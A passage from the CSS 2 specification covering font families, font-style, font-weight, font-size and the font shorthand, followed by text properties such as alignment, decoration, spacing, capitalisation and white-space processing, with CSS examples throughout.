Glyphs in cursive fonts, as the term is used in CSS, generally have either joining strokes or other cursive characteristics beyond those of italic typefaces. The glyphs are partially or completely connected, and the result looks more like handwritten pen or brush writing than printed letterwork. Fonts for some scripts, such as Arabic, are almost always cursive. CSS uses the term `cursive` to apply to a font for any script, although other names such as Chancery, Brush, Swing and Script are also used in font names.

Examples of fonts that fit this description include:

| Latin fonts | Caflisch Script, Adobe Poetica, Sanvito, Ex Ponto, Snell Roundhand, Zapf-Chancery |
| --- | --- |
| Cyrillic fonts | ER Architekt |
| Hebrew fonts | Corsiva |
| Arabic fonts | DecoType Naskh, Monotype Urdu 507 |

###### 15.3.1.4.  **fantasy** {#css2:fantasy}

Fantasy fonts, as used in CSS, are primarily decorative while still containing representations of characters (as opposed to Pi or Picture fonts, which do not represent characters). Examples include:

| Latin fonts | Alpha Geometrique, Critter, Cottonwood, FB Reactor, Studz |
| --- | --- |

###### 15.3.1.5.  **monospace** {#css2:monospace}

The sole criterion of a monospace font is that all glyphs have the same fixed width. (This can make some scripts, such as Arabic, look most peculiar.) The effect is similar to a manual typewriter, and is often used to set samples of computer code.

Examples of fonts which fit this description include:

| Latin fonts | Courier, MS Courier New, Prestige, Everson Mono |
| --- | --- |
| Greek Fonts | MS Courier New, Everson Mono |
| Cyrillic fonts | ER Kurier, Everson Mono |
| Japanese fonts | Osaka Monospaced |
| Cherokee fonts | Everson Mono |

#### 15.4. Font styling: the `font-style` property {#css2:font-styling}

| Field | Value |
| --- | --- |
| Name: | **font-style** |
| [Value:](#css-values-4:value-defs) | normal \| italic \| oblique \| inherit |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

The `font-style` property selects between normal (sometimes referred to as "roman" or "upright"), italic and oblique faces within a font family.

A value of **normal** selects a font that is classified as `normal` in the UA’s font database, while **oblique** selects a font that is labeled `oblique`. A value of **italic** selects a font that is labeled `italic`, or, if that is not available, one labeled `oblique`.

The font that is labeled `oblique` in the UA’s font database may actually have been generated by electronically slanting a normal font.

Fonts with Oblique, Slanted or Incline in their names will typically be labeled `oblique` in the UA’s font database. Fonts with *Italic, Cursive* or *Kursiv* in their names will typically be labeled `italic`.

```css
h1, h2, h3 { font-style: italic }
h1 em { font-style: normal }
```

In the example above, emphasized text within `H1` will appear in a normal face.

#### 15.5. Small-caps: the `font-variant` property {#css2:small-caps}

| Field | Value |
| --- | --- |
| Name: | **font-variant** |
| [Value:](#css-values-4:value-defs) | normal \| small-caps \| inherit |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

Another type of variation within a font family is the small-caps. In a small-caps font the lowercase letters look similar to the uppercase ones, but in a smaller size and with slightly different proportions. The `font-variant` property selects that font.

A value of **normal** selects a font that is not a small-caps font, **small-caps** selects a small-caps font. It is acceptable (but not required) in CSS 2 if the small-caps font is a created by taking a normal font and replacing the lowercase letters by scaled uppercase characters. As a last resort, uppercase letters will be used as replacement for a small-caps font.

The following example results in an `H3` element in small-caps, with any emphasized words in oblique, and any emphasized words within an `H3` oblique small-caps:

```css
h3 { font-variant: small-caps }
em { font-style: oblique }
```

There may be other variants in the font family as well, such as fonts with old-style numerals, small-caps numerals, condensed or expanded letters, etc. CSS 2 has no properties that select those.

*Note:* insofar as this property causes text to be transformed to uppercase, the same considerations as for `text-transform` apply.

#### 15.6. Font boldness: the `font-weight` property {#css2:font-boldness}

| Field | Value |
| --- | --- |
| Name: | **font-weight** |
| [Value:](#css-values-4:value-defs) | normal \| bold \| bolder \| lighter \| 100 \| 200 \| 300 \| 400 \| 500 \| 600 \| 700 \| 800 \| 900 \| inherit |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see text |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

The `font-weight` property selects the weight of the font. The values `100` to `900` form an ordered sequence, where each number indicates a weight that is at least as dark as its predecessor. The keyword **normal** is synonymous with `400`, and **bold** is synonymous with `700`. Keywords other than `normal` and `bold` have been shown to be often confused with font names and a numerical scale was therefore chosen for the 9-value list.

```css
p { font-weight: normal }   /* 400 */
h1 { font-weight: 700 }     /* bold */
```

The **bolder** and **lighter** values select font weights that are relative to the weight inherited from the parent:

```css
strong { font-weight: bolder }
```

Fonts (the font data) typically have one or more properties whose values are names that are descriptive of the "weight" of a font. There is no accepted, universal meaning to these weight names. Their primary role is to distinguish faces of differing darkness within a single font family. Usage across font families is quite variant; for example, a font that one might think of as being bold might be described as being *Regular, Roman, Book, Medium, Semi-* or *DemiBold, Bold,* or *Black,* depending on how black the "normal" face of the font is within the design. Because there is no standard usage of names, the weight property values in CSS 2 are given on a numerical scale in which the value `400` (or `normal`) corresponds to the "normal" text face for that family. The weight name associated with that face will typically be *Book, Regular, Roman, Normal* or sometimes *Medium*.

The association of other weights within a family to the numerical weight values is intended only to preserve the ordering of darkness within that family. However, the following heuristics tell how the assignment is done in this case:

- If the font family already uses a numerical scale with nine values (like e.g., *OpenType* does), the font weights should be mapped directly.
- If there is both a face labeled *Medium* and one labeled *Book, Regular, Roman* or *Normal,* then the *Medium* is normally assigned to the `500`.
- The font labeled "Bold" will often correspond to the weight value `700`.

Once the font family’s weights are mapped onto the CSS scale, missing weights are selected as follows:

- If the desired weight is less than 400, weights below the desired weight are checked in descending order followed by weights above the desired weight in ascending order until a match is found.
- If the desired weight is greater than 500, weights above desired weight are checked in ascending order followed by weights below the desired weight in descending order until a match is found.
- If the desired weight is 400, 500 is checked first and then the rule for desired weights less than 400 is used.
- If the desired weight is 500, 400 is checked first and then the rule for desired weights less than 400 is used.

The following two examples show typical mappings.

> **Example:** Assume four weights in the "Rattlesnake" family, from lightest to darkest: *Regular, Medium, Bold, Heavy.*
>
> | Available faces | Assignments | Filling the holes |
> | --- | --- | --- |
> | "Rattlesnake Regular" | 400 | 100, 200, 300 |
> | "Rattlesnake Medium" | 500 |  |
> | "Rattlesnake Bold" | 700 | 600 |
> | "Rattlesnake Heavy" | 800 | 900 |

> **Example:** Assume six weights in the "Ice Prawn" family: *Book, Medium, Bold, Heavy, Black, ExtraBlack.* Note that in this instance the user agent has decided *not* to assign a numeric value to "Ice Prawn ExtraBlack".
>
> | Available faces | Assignments | Filling the holes |
> | --- | --- | --- |
> | "Ice Prawn Book" | 400 | 100, 200, 300 |
> | "Ice Prawn Medium" | 500 |  |
> | "Ice Prawn Bold" | 700 | 600 |
> | "Ice Prawn Heavy" | 800 |  |
> | "Ice Prawn Black" | 900 |  |
> | "Ice Prawn ExtraBlack" | (none) |  |

Values of `bolder` and `lighter` indicate values relative to the weight of the parent element. Based on the inherited weight value, the weight used is calculated using the chart below. Child elements inherit the calculated weight, not a value of `bolder` or `lighter`.

| Inherited value | bolder | lighter |
| --- | --- | --- |
| 100 | 400 | 100 |
| 200 | 400 | 100 |
| 300 | 400 | 100 |
| 400 | 700 | 100 |
| 500 | 700 | 100 |
| 600 | 900 | 400 |
| 700 | 900 | 400 |
| 800 | 900 | 700 |
| 900 | 900 | 700 |

The table above is equivalent to selecting the next relative bolder or lighter face, given a font family containing normal and bold faces along with a thin and a heavy face. Authors who desire finer control over the exact weight values used for a given element should use numerical values instead of relative weights.

There is no guarantee that there will be a darker face for each of the `font-weight` values; for example, some fonts may have only a normal and a bold face, while others may have eight face weights. There is no guarantee on how a UA will map font faces within a family to weight values. The only guarantee is that a face of a given value will be no less dark than the faces of lighter values.

#### 15.7. Font size: the `font-size` property {#css2:font-size-props}

| Field | Value |
| --- | --- |
| Name: | **font-size** |
| [Value:](#css-values-4:value-defs) | `<absolute-size>` \| `<relative-size>` \| `<length>` \| `<percentage>` \| inherit |
| [Initial:](#css-cascade-6:initial-values) | medium |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | refer to inherited font size |
| [Computed value:](#css-cascade-6:computed) | absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

The font size corresponds to the em square, a concept used in typography. Note that certain glyphs may bleed outside their em squares. Values have the following meanings:

******<absolute-size>******

: An <absolute-size> keyword is an index to a table of font sizes computed and kept by the UA. Possible values are:

  [ **xx-small** | **x-small** | **small** | **medium** | **large** | **x-large** | **xx-large** ]

  The following table provides user agent guidelines for the absolute-size mapping to HTML heading and absolute font-sizes. The `medium` value is the user’s preferred font size and is used as the reference middle value.

  | CSS absolute-size values | xx-small | x-small | small | medium | large | x-large | xx-large |  |
  | --- | --- | --- | --- | --- | --- | --- | --- | --- |
  | HTML font sizes | 1 |  | 2 | 3 | 4 | 5 | 6 | 7 |

  Implementors should build a table of scaling factors for absolute-size keywords relative to the `medium` font size and the particular device and its characteristics (e.g., the resolution of the device).

  Different media may need different scaling factors. Also, the UA should take the quality and availability of fonts into account when computing the table. The table may be different from one font family to another.

  > **Note:** ***Note 1.** To preserve readability, a UA applying these guidelines should nevertheless avoid creating font-size resulting in less than 9 pixels per EM unit on a computer display.*

  > **Note:** ***Note 2.** In CSS1, the suggested scaling factor between adjacent indexes was 1.5, which user experience proved to be too large. In CSS2 (1998), the suggested scaling factor for a computer screen between adjacent indexes was 1.2, which still created issues for the small sizes. Implementation experience has demonstrated that a fixed ratio between adjacent absolute-size keywords is problematic, and this specification does *not* recommend such a fixed ratio.*

******<relative-size>******

: A <relative-size> keyword is interpreted relative to the table of font sizes and the font size of the parent element. Possible values are: [ larger | smaller ]. For example, if the parent element has a font size of `medium`, a value of `larger` will make the font size of the current element be `large`. If the parent element’s size is not close to a table entry, the UA is free to interpolate between table entries or round off to the closest one. The UA may have to extrapolate table values if the numerical value goes beyond the keywords.

Length and percentage values should not take the font size table into account when calculating the font size of the element.

Negative values are not allowed.

On all other properties, `em` and `ex` length values refer to the computed font size of the current element. On the `font-size` property, these length units refer to the computed font size of the parent element.

Note that an application may reinterpret an explicit size, depending on the context. E.g., inside a VR scene a font may get a different size because of perspective distortion.

Examples:

```css
p { font-size: 16px; }
@media print {
  p { font-size: 12pt; }
}
blockquote { font-size: larger }
em { font-size: 150% }
em { font-size: 1.5em }
```

#### 15.8. Shorthand font property: the `font` property {#css2:font-shorthand}

| Field | Value |
| --- | --- |
| Name: | **font** |
| [Value:](#css-values-4:value-defs) | [ [ `<'font-style'>` \|\| `<'font-variant'>` \|\| `<'font-weight'>` ]? `<'font-size'>` [ / `<'line-height'>` ]? `<'font-family'>` ] \| caption \| icon \| menu \| message-box \| small-caption \| status-bar \| inherit |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| Media: | visual |

The `font` property is, except as described [below](#css2:almost), a shorthand property for setting `font-style`, `font-variant`, `font-weight`, `font-size`, `line-height` and `font-family` at the same place in the style sheet. The syntax of this property is based on a traditional typographical shorthand notation to set multiple properties related to fonts.

All font-related properties are first reset to their initial values, including those listed in the preceding paragraph. Then, those properties that are given explicit values in the `font` shorthand are set to those values. For a definition of allowed and initial values, see the previously defined properties.

```css
p { font: 12px/14px sans-serif }
p { font: 80% sans-serif }
p { font: x-large/110% "New Century Schoolbook", serif }
p { font: bold italic large Palatino, serif }
p { font: normal small-caps 120%/120% fantasy }
```

In the second rule, the font size percentage value (`80%`) refers to the font size of the parent element. In the third rule, the line height percentage refers to the font size of the element itself.

In the first three rules above, the `font-style`, `font-variant` and `font-weight` are not explicitly mentioned, which means they are all three set to their initial value (`normal`). The fourth rule sets the `font-weight` to `bold`, the `font-style` to `italic` and implicitly sets `font-variant` to `normal`.

The fifth rule sets the `font-variant` (`small-caps`), the `font-size` (120% of the parent’s font), the `line-height` (120% times the font size) and the `font-family` (`fantasy`). It follows that the keyword `normal` applies to the two remaining properties: `font-style` and `font-weight`.

The following values refer to **system fonts**:

****caption****

: The font used for captioned controls (e.g., buttons, drop-downs, etc.).

****icon****

: The font used to label icons.

****menu****

: The font used in menus (e.g., dropdown menus and menu lists).

****message-box****

: The font used in dialog boxes.

****small-caption****

: The font used for labeling small controls.

****status-bar****

: The font used in window status bars.

System fonts may only be set as a whole; that is, the font family, size, weight, style, etc. are all set at the same time. These values may then be altered individually if desired. If no font with the indicated characteristics exists on a given platform, the user agent should either intelligently substitute (e.g., a smaller version of the `caption` font might be used for the `small-caption` font), or substitute a user agent default font. As for regular fonts, if, for a system font, any of the individual properties are not part of the operating system’s available user preferences, those properties should be set to their initial values.

That is why this property is "almost" a shorthand property: system fonts can only be specified with this property, not with `font-family` itself, so `font` allows authors to do more than the sum of its subproperties. However, the individual properties such as `font-weight` are still given values taken from the system font, which can be independently varied.

> **Example:** ```css
> button { font: 300 italic 1.3em/1.7em "FB Armada", sans-serif }
> button p { font: menu }
> button p em { font-weight: bolder }
> ```
>
> If the font used for dropdown menus on a particular system happened to be, for example, 9-point Charcoal, with a weight of 600, then P elements that were descendants of BUTTON would be displayed as if this rule were in effect:
>
> ```css
> button p { font: 600 9px Charcoal }
> ```
>
> Because the `font` shorthand property resets any property not explicitly given a value to its initial value, this has the same effect as this declaration:
>
> ```css
> button p {
>   font-family: Charcoal;
>   font-style: normal;
>   font-variant: normal;
>   font-weight: 600;
>   font-size: 9px;
>   line-height: normal;
> }
> ```

### 16. Text {#css2:text}

The properties defined in the following sections affect the visual presentation of characters, spaces, words, and paragraphs.

#### 16.1. Indentation: the `text-indent` property {#css2:indentation-prop}

| Field | Value |
| --- | --- |
| Name: | **text-indent** |
| [Value:](#css-values-4:value-defs) | `<length>` \| `<percentage>` \| inherit |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | block containers |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | refer to width of containing block |
| [Computed value:](#css-cascade-6:computed) | the percentage as specified or the absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

This property specifies the indentation of the first line of text in a block container. More precisely, it specifies the indentation of the first box that flows into the block’s first line box. The box is indented with respect to the left (or right, for right-to-left layout) edge of the line box. User agents must render this indentation as blank space.

`text-indent` only affects a line if it is the [first formatted line](#css2:first-line-pseudo) of an element. For example, the first line of an anonymous block box is only affected if it is the first child of its parent element.

Values have the following meanings:

**`<length>`**

: The indentation is a fixed length.

**`<percentage>`**

: The indentation is a percentage of the containing block width.

The value of `text-indent` may be negative, but there may be implementation-specific limits. If the value of `text-indent` is either negative or exceeds the width of the block, that *first box*, described above, can overflow the block. The value of `overflow` will affect whether such text that overflows the block is visible.

> **Example:** The following example causes a `3em` text indent.
>
> ```css
> p { text-indent: 3em }
> ```

> **Note:** Since the `text-indent` property inherits, when specified on a block element, it will affect descendant inline-block elements. For this reason, it is often wise to specify '`text-indent: 0`' on elements that are specified '`display:inline-block`'.

#### 16.2. Alignment: the `text-align` property {#css2:alignment-prop}

| Field | Value |
| --- | --- |
| Name: | **text-align** |
| [Value:](#css-values-4:value-defs) | left \| right \| center \| justify \| inherit |
| [Initial:](#css-cascade-6:initial-values) | a nameless value that acts as `left` if `direction` is `ltr`, `right` if `direction` is `rtl` |
| [Applies to:](#css-cascade-5:applies-to) | block containers |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | the initial value or as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property describes how inline-level content of a block container is aligned. Values have the following meanings:

****left**, **right**, **center**, **justify****

: Left, right, center, and justify text, respectively, as described in [the section on inline formatting](#css2:inline-formatting).

A block of text is a stack of line boxes. In the case of `left`, `right` and `center`, this property specifies how the inline-level boxes within each line box align with respect to the line box’s left and right sides; alignment is not with respect to the [viewport](#css2:viewport). In the case of `justify`, this property specifies that the inline-level boxes are to be made flush with both sides of the line box if possible, by expanding or contracting the contents of inline boxes, else aligned as for the initial value. (See also `letter-spacing` and `word-spacing`.)

If an element has a computed value for `white-space` of `pre` or `pre-wrap`, then neither the glyphs of that element’s text content nor its white space may be altered for the purpose of justification.

> **Note:** CSS may add a way to justify text with 'white-space: pre-wrap' in the future.

> **Example:** In this example, note that since `text-align` is inherited, all block-level elements inside DIV elements with a class name of `important` will have their inline content centered.
>
> ```css
> div.important { text-align: center }
> ```

> **Note:** ***Note.** The actual justification algorithm used depends on the user-agent and the language/script of the text.*

*[Conforming user agents](#css2:conformance) may interpret the value `justify` as `left` or `right`, depending on whether the element’s default writing direction is left-to-right or right-to-left, respectively.*

#### 16.3. Decoration {#css2:decoration}

##### 16.3.1. Underlining, overlining, striking, and blinking: the `text-decoration` property {#css2:lining-striking-props}

| Field | Value |
| --- | --- |
| Name: | **text-decoration** |
| [Value:](#css-values-4:value-defs) | none \| [ underline \|\| overline \|\| line-through \|\| blink ] \| inherit |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | no (see prose) |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property describes decorations that are added to the text of an element using the element’s color. When specified on or propagated to an inline element, it affects all the boxes generated by that element, and is further propagated to any in-flow block-level boxes that split the inline (see [section 9.2.1.1](#css2:anonymous-block-level)). But, in CSS 2, it is undefined whether the decoration propagates into block-level tables. For block containers that establish an [inline formatting context,](#css2:inline-formatting) the decorations are propagated to an anonymous inline element that wraps all the in-flow inline-level children of the block container. For all other elements it is propagated to any in-flow children. Note that text decorations are not propagated to floating and absolutely positioned descendants, nor to the contents of atomic inline-level descendants such as inline blocks and inline tables.

Underlines, overlines, and line-throughs are applied only to text (including white space, letter spacing, and word spacing): margins, borders, and padding are skipped. User agents must not render these text decorations on content that is not text. For example, images and inline blocks must not be underlined.

> **Note:** ***Note.** If an element E has both 'visibility: hidden' and 'text-decoration: underline', the underline is invisible (although any decoration of E’s parent **is** visible.) However, CSS 2 does not specify if the underline is visible or invisible in E’s children:*
>
> ```html
> <span style="visibility: hidden; text-decoration: underline">
>  <span style="visibility: visible">
>   underlined or not?
>  </span>
> </span>
> ```
>
> *This is expected to be specified in level 3 of CSS.*

The `text-decoration` property on descendant elements cannot have any effect on the decoration of the ancestor. In determining the position of and thickness of text decoration lines, user agents may consider the font sizes of and dominant baselines of descendants, but must use the same baseline and thickness on each line. Relatively positioning a descendant moves all text decorations affecting it along with the descendant’s text; it does not affect calculation of the decoration’s initial position on that line.

Values have the following meanings:

****none****

: Produces no text decoration.

****underline****

: Each line of text is underlined.

****overline****

: Each line of text has a line above it.

****line-through****

: Each line of text has a line through the middle.

****blink****

: Text blinks (alternates between visible and invisible). [Conforming user agents](#css2:conformance) may simply not blink the text. Note that not blinking the text is one technique to satisfy [checkpoint 3.3 of WAI-UAAG](https://www.w3.org/TR/UAAG/guidelines.html#tech-on-off-blinking-text).

The color(s) required for the text decoration must be derived from the `color` property value of the element on which `text-decoration` is set. The color of decorations must remain the same even if descendant elements have different `color` values.

Some user agents have implemented text-decoration by propagating the decoration to the descendant elements as opposed to preserving a constant thickness and line position as described above. This was arguably allowed by the looser wording in CSS2 (1998). SVG1, CSS1-only, and CSS2 (1998)-only user agents may implement the older model and still claim conformance to this part of CSS 2. (This does not apply to UAs developed after this specification was released.)

> **Example:** In the following example for HTML, the text content of all A elements acting as hyperlinks (whether visited or not) will be underlined:
>
> ```css
> a:visited,a:link { text-decoration: underline }
> ```

> **Example:** In the following style sheet and document fragment:
>
> ```css
> blockquote { text-decoration: underline; color: blue; }
> em { display: block; }
> cite { color: fuchsia; }
> ```
>
> ```html
> <blockquote>
>  <p>
>   <span>
>    Help, help!
>    <em> I am under a hat! </em>
>    <cite> —GwieF </cite>
>   </span>
>  </p>
> </blockquote>
> ```
>
> ...the underlining for the blockquote element is propagated to an anonymous inline element that surrounds the span element, causing the text "Help, help!" to be blue, with the blue underlining from the anonymous inline underneath it, the color being taken from the blockquote element. The `<em>text</em>` in the em block is also underlined, as it is in an in-flow block to which the underline is propagated. The final line of text is fuchsia, but the underline underneath it is still the blue underline from the anonymous inline element.
>
> 
>
> This diagram shows the boxes involved in the example above. The rounded aqua line represents the anonymous inline element wrapping the inline contents of the paragraph element, the rounded blue line represents the span element, and the orange lines represent the blocks.

#### 16.4. Letter and word spacing: the `letter-spacing` and `word-spacing` properties {#css2:spacing-props}

| Field | Value |
| --- | --- |
| Name: | **letter-spacing** |
| [Value:](#css-values-4:value-defs) | normal \| `<length>` \| inherit |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | `normal` or absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

This property specifies spacing behavior between text characters. Values have the following meanings:

****normal****

: The spacing is the normal spacing for the current font. This value allows the user agent to alter the space between characters in order to justify text.

**`<length>`**

: This value indicates inter-character space *in addition to* the default space between characters. Values may be negative, but there may be implementation-specific limits. User agents may not further increase or decrease the inter-character space in order to justify text.

Character spacing algorithms are user agent-dependent.

> **Example:** In this example, the space between characters in BLOCKQUOTE elements is increased by `0.1em`.
>
> ```css
> blockquote { letter-spacing: 0.1em }
> ```
>
> In the following example, the user agent is not permitted to alter inter-character space:
>
> ```css
> blockquote { letter-spacing: 0cm }   /* Same as '0' */
> ```

When the resultant space between two characters is not the same as the default space, user agents should not use ligatures.

| Field | Value |
| --- | --- |
| Name: | **word-spacing** |
| [Value:](#css-values-4:value-defs) | normal \| `<length>` \| inherit |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | for `normal` the value `0`; otherwise the absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

This property specifies spacing behavior between words. Values have the following meanings:

****normal****

: The normal inter-word space, as defined by the current font and/or the UA.

**`<length>`**

: This value indicates inter-word space *in addition to* the default space between words. Values may be negative, but there may be implementation-specific limits.

Word spacing algorithms are user agent-dependent. Word spacing is also influenced by justification (see the `text-align` property). Word spacing affects each space (U+0020) and non-breaking space (U+00A0), left in the text after the white space processing rules have been applied. The effect of the property on other word-separator characters is undefined. However general punctuation, characters with zero advance width (such as the zero with space U+200B) and fixed-width spaces (such as U+3000 and U+2000 through U+200A) are not affected.

> **Example:** In this example, the word-spacing between each word in H1 elements is increased by `1em`.
>
> ```css
> h1 { word-spacing: 1em }
> ```

#### 16.5. Capitalization: the `text-transform` property {#css2:caps-prop}

| Field | Value |
| --- | --- |
| Name: | **text-transform** |
| [Value:](#css-values-4:value-defs) | capitalize \| uppercase \| lowercase \| none \| inherit |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property controls capitalization effects of an element’s text. Values have the following meanings:

****capitalize****

: Puts the first character of each word in uppercase; other characters are unaffected.

****uppercase****

: Puts all characters of each word in uppercase.

****lowercase****

: Puts all characters of each word in lowercase.

****none****

: No capitalization effects.

The actual transformation in each case is written language dependent. See BCP 47 ([BCP47]) for ways to find the language of an element.

Only characters belonging to "bicameral scripts" [UNICODE] are affected.

> **Example:** In this example, all text in an H1 element is transformed to uppercase text.
>
> ```css
> h1 { text-transform: uppercase }
> ```

#### 16.6. White space: the `white-space` property {#css2:white-space-prop}

| Field | Value |
| --- | --- |
| Name: | **white-space** |
| [Value:](#css-values-4:value-defs) | normal \| pre \| nowrap \| pre-wrap \| pre-line \| inherit |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property declares how white space inside the element is handled. Values have the following meanings:

****normal****

: This value directs user agents to collapse sequences of white space, and break lines as necessary to fill line boxes.

****pre****

: This value prevents user agents from collapsing sequences of white space. Lines are only broken at preserved newline characters.

****nowrap****

: This value collapses white space as for `normal`, but suppresses line breaks within text.

****pre-wrap****

: This value prevents user agents from collapsing sequences of white space. Lines are broken at preserved newline characters, and as necessary to fill line boxes.

****pre-line****

: This value directs user agents to collapse sequences of white space. Lines are broken at preserved newline characters, and as necessary to fill line boxes.

Newlines in the source can be represented by a carriage return (U+000D), a linefeed (U+000A) or both (U+000D U+000A) or by some other mechanism that identifies the beginning and end of document segments, such as the SGML RECORD-START and RECORD-END tokens. The CSS `white-space` processing model assumes all newlines have been normalized to line feeds. UAs that recognize other newline representations must apply the white space processing rules as if this normalization has taken place. If no newline rules are specified for the document language, each carriage return (U+000D) and CRLF sequence (U+000D U+000A) in the document text is treated as single line feed character. This default normalization rule also applies to generated content.

UAs must recognize line feeds (U+000A) as newline characters. UAs may additionally treat other forced break characters as newline characters per UAX14.

> **Example:** The following examples show what [white space](#css2:whitespace) behavior is expected from the PRE and P elements and the "nowrap" attribute in HTML.
>
> ```css
> pre        { white-space: pre }
> p          { white-space: normal }
> td[nowrap] { white-space: nowrap }
> ```
>
> In addition, the effect of an HTML PRE element with the *non-standard* "wrap" attribute is demonstrated by the following example:
>
> ```css
> pre[wrap]  { white-space: pre-wrap }
> ```

##### 16.6.1. The `white-space` processing model {#css2:white-space-model}

For each inline element (including anonymous inline elements), the following steps are performed, treating bidi formatting characters as if they were not there:

1. Each tab (U+0009), carriage return (U+000D), or space (U+0020) character surrounding a linefeed (U+000A) character is removed if `white-space` is set to `normal`, `nowrap`, or `pre-line`.
2. If `white-space` is set to `pre` or `pre-wrap`, any sequence of spaces (U+0020) unbroken by an element boundary is treated as a sequence of non-breaking spaces. However, for `pre-wrap`, a line breaking opportunity exists at the end of the sequence.
3. If `white-space` is set to `normal` or `nowrap`, linefeed characters are transformed for rendering purpose into one of the following characters: a space character, a zero width space character (U+200B), or no character (i.e., not rendered), according to UA-specific algorithms based on the content script.
4. If `white-space` is set to `normal`, `nowrap`, or `pre-line`,

  1. every tab (U+0009) is converted to a space (U+0020)
  2. any space (U+0020) following another space (U+0020) — even a space before the inline, if that space also has `white-space` set to `normal`, `nowrap` or `pre-line` — is removed.

Then, the block container’s inlines are laid out. Inlines are laid out, taking bidi reordering into account, and wrapping as specified by the `white-space` property. When wrapping, line breaking opportunities are determined based on the text prior to the white space collapsing steps above.

As each line is laid out,

1. If a space (U+0020) at the beginning of a line has `white-space` set to `normal`, `nowrap`, or `pre-line`, it is removed.
2. All tabs (U+0009) are rendered as a horizontal shift that lines up the start edge of the next glyph with the next tab stop. Tab stops occur at points that are multiples of 8 times the width of a space (U+0020) rendered in the block’s font from the block’s starting content edge.
3. If a space (U+0020) at the end of a line has `white-space` set to `normal`, `nowrap`, or `pre-line`, it is also removed.
4. If spaces (U+0020) or tabs (U+0009) at the end of a line have `white-space` set to `pre-wrap`, UAs may visually collapse them.

Floated and absolutely-positioned elements do not introduce a line breaking opportunity.

> **Note:** ***Note.** CSS 2 does not fully define where line breaking opportunities occur.*

##### 16.6.2. Example of bidirectionality with white space collapsing {#css2:egbidiwscollapse}

Given the following markup fragment, taking special note of spaces (with varied backgrounds and borders for emphasis and identification):

```xml
<ltr>A <rtl> B </rtl> C</ltr>
```

...where the `<ltr>` element represents a left-to-right embedding and the `<rtl>` element represents a right-to-left embedding, and assuming that the `white-space` property is set to `normal`, the above processing model would result in the following:

- The space before the B ( ) would collapse with the space after the A ( ).
- The space before the C ( ) would collapse with the space after the B ( ).

This would leave two spaces, one after the A in the left-to-right embedding level, and one after the B in the right-to-left embedding level. This is then rendered according to the Unicode bidirectional algorithm, with the end result being:

